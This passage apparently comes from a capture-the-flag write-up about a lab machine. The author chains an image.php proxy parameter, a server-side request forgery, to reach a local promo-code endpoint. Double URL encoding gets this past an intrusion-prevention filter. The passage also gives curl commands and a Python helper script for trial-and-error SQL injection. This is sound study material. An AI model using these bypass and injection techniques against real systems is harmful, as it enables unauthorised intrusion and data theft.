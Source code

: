 PHP is using the passthru function that can execute arbitrary commands, however, nothing in this allows for injection from us it seems.

So these sanitizations are happening on my input from the main page but perhaps if I make the same request through the image page it may change. One thing to note is that since the parameter is a URL it needs to be URL encoded and the parameter it has for promocode needs to be URL encoded (so this ends up being double URL encoded).

With this in mind...

The request I want to make is:
```curl http://192.168.56.104/image.php?src=http://127.0.0.1/checkpromo.php?promocode='```

URL encoding the parameter results in:
```
curl http://192.168.56.104/image.php?src=http%3a%2f%2f127.0.0.1%2fcheckpromo.php%3fpromocode%3d%2527
Malicious request blocked!
~Rashomon IPS
```
Same error... blocked.

Knowing about the potential proxy on 8080 that it may be able to use if the request was coming from local I add in the 8080 port to see if that makes a difference.

```
curl http://192.168.56.104/image.php?src=http%3a%2f%2f127.0.0.1%3a8080%2fcheckpromo.php%3fpromocode%3d%2527
Promocode not valid!
```

Success! It works while sending it a single tick which means I may have bypassed the Rashomon IPS filtering.

## Making testing easier through a custom python script
To make things easier to test since all this encoding needs to happen I wrote the below python code to assist in executing commands as I perform some trial and error SQL.

```python
#!/usr/bin/python3

import os
import sys
from urllib.parse import quote_plus

base_url = 'http://192.168.56.104/image.php?src='
proxy_url = quote_plus('http://127.0.0.1:8080/checkpromo.php?promocode=')
attack_string = quote_plus(quote_plus(sys.argv[1])).replace("-", "%252d")

print(base_url + proxy_url + attack_string)

for line in os.popen('curl ' + base_url + proxy_url + attack_string).read().splitlines():
    print(line)
```
